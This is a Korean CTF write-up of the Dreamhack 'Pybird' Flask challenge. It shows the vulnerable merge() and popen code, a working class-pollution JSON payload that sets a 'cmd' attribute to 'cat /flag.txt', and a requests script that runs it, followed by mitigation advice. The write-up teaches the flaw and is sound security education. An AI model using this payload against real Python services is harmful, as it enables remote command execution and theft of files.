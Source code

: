 ```yaml
---
title: "[CTF] 드림핵 Pybird"
date: 2025-09-19 22:20:00 +0900
categories: [CTF, Web]
tags: [CTF, Deserialization, Object Injection, Python]
description: "드림핵 Pybird"
author: "송지민"
toc: true
---
```


## 문제 개요

이번 문제는 Flask 기반의 간단한 멤버 관리 서비스이다. 역할(role)에 따라 다른 클래스 인스턴스를 생성하고, `principal` 역할인 경우에만 추가로 `merge()` 함수를 호출해 JSON(또는 form)으로 전달된 값을 객체에 병합한다. 이 병합 로직이 객체 속성을 임의로 덮어쓸 수 있게 설계되어 있어, 공격자가 `principal` 객체에 임의의 어트리뷰트를 주입하면 서버 측에서 해당 어트리뷰트를 사용해 명령을 실행할 수 있다.

* 취약 페이지: `/add_member` (POST, JSON 또는 form)
* 명령 실행 경로: `/execute` → `principal.command()` → `popen(command)`
* 취약점 핵심: `merge(src, dst)`가 사용자 입력을 객체에 재귀적으로 주입하여 임의 속성(예: `cmd`)을 추가 가능
* FLAG 위치: 서버 상의 `flag.txt` (예시)

---

## 문제에 제공된 원본 소스코드

아래는 문제에서 제공된 `app.py`의 핵심 부분이다.

```python
from flask import Flask, request, jsonify, render_template, redirect, url_for
from os import popen

app = Flask(__name__)

class Student:
    def __init__(self, name):
        self.name = name
        self.role = "student"

class Teacher(Student):
    def __init__(self, name):
        super().__init__(name)
        self.role = "teacher"

class SubstituteTeacher(Teacher):
    def __init__(self, name):
        super().__init__(name)
        self.role = "substitute_teacher"

class Principal(Teacher):
    def __init__(self, name):
        super().__init__(name)
        self.role = "principal"

    def command(self):
        command = self.cmd if hasattr(self, 'cmd') else 'echo Permission Denied'
        return f'{popen(command).read().strip()}'


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

principal = Principal("principal")
members = []
members.append({"name":"admin", "role":"principal"})

@app.route('/execute', methods=['GET'])
def execute():
    return jsonify({"result": principal.command()})

@app.route('/add_member', methods=['GET', 'POST'])
def add_member():
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
        else:
            data = request.form
        name = data.get("name")
        role = data.get("role")
        if role == "principal":
            new_member = Principal(name)
            merge(data, new_member)
        ...
        members.append({"name": new_member.name, "role": new_member.role})
        return redirect(url_for('index'))
```

---

## 내가 실제로 푼 방법

핵심은 `merge()` 함수가 JSON 입력을 받아 `Principal` 객체의 속성을 사용자 입력으로 덮어쓰도록 허용하는 점이다. 이 동작을 이용하면 `principal` 객체에 `cmd` 어트리뷰트를 추가하여 `/execute` 호출 시 임의 명령을 실행시킬 수 있다.

### 공격 아이디어 요약

1. `/add_member`에 JSON으로 `role="principal"`을 주고, 구조체 형태로 `cmd` 값을 깊은 위치에 끼워넣어 `merge()`가 `Principal` 인스턴스에 `cmd` 속성을 설정하게 한다.
2. `/execute`를 호출하면 `principal.command()`가 `self.cmd`를 읽어 `popen()`으로 실행하므로, 예: `cat /flag.txt` 같은 명령 결과를 JSON으로 얻을 수 있다.

### 내가 사용한 페이로드

아래 페이로드는 JSON 바디로 `/add_member`에 POST하는 형식이다.

```json
{
  "name": "Exploited",
  "role": "principal",
  "__class__": {
    "__base__": {
      "__base__": {
        "cmd": "cat /flag.txt"
      }
    }
  }
}
```

* 이 페이로드는 `merge()` 호출 과정에서 `setattr()`을 통해 `principal` 객체에 `cmd` 어트리뷰트가 추가되도록 유도한다.

### 재현 예시

```python
import requests
base_url = 'http://<target>:5000'
payload = {
    "name": "Exploited",
    "role": "principal",
    "__class__": {
        "__base__": {
            "__base__": {
                "cmd": "cat /flag.txt"
            }
        }
    }
}
resp = requests.post(f'{base_url}/add_member', json=payload)
print(resp.status_code, resp.text)
# 이후
resp = requests.get(f'{base_url}/execute')
print(resp.json())
```

---

## 재현 흐름

1. 공격자: `/add_member`에 위 JSON 페이로드로 POST → `merge()`로 인해 `principal.cmd`가 설정됨
2. 공격자: `/execute` 요청 → `principal.command()`가 `self.cmd` 실행 → 명령 결과 반환(예: flag)

---

## 왜 이게 가능했나

* `merge()`는 외부 입력을 신뢰하고 객체의 속성을 그대로 덮어쓴다(심지어 재귀적으로).
* `Principal` 클래스의 `command()`는 `self.cmd`가 존재하면 이를 실행하도록 설계되어 있어, 외부에서 `cmd`를 주입하면 임의 명령 실행이 가능하다.
* 입력 검증, 허용 속성 화이트리스트, `merge()`의 안전한 구현이 없기 때문에 객체 인젝션(Object Injection) 취약점이 발생한다.

---

## 완화 및 권장 대책

* **절대 사용자 입력을 객체의 속성으로 직접 주입하지 말 것.** 특히 `setattr()` 같은 함수를 통해 내부 객체 상태를 변경하지 말자.
* **화이트리스트 방식의 속성 필터링**: 허용된 키와 값의 타입만 병합하도록 제한하라.
* **직렬화/역직렬화 안전**: 신뢰할 수 없는 JSON을 클래스 인스턴스로 직접 매핑하지 말 것.
* **원격 명령 실행 구조 제거**: `popen()` 등은 최소 권한/승인된 입력만 받도록 하거나 완전히 제거.
* **로그 및 모니터링**: 의심스러운 객체 변경과 관리자 권한 조작 시도 탐지.

---

## 마무리

Pybird 문제는 Python 객체 병합 로직의 위험성을 잘 보여주는 사례다. 외부 입력으로부터 객체 속성을 덮어쓰는 행위는 곧 권한 상승 및 원격 명령 실행으로 이어질 수 있으므로, 설계 단계에서부터 엄격한 입력 검증과 속성 제어가 필요하다.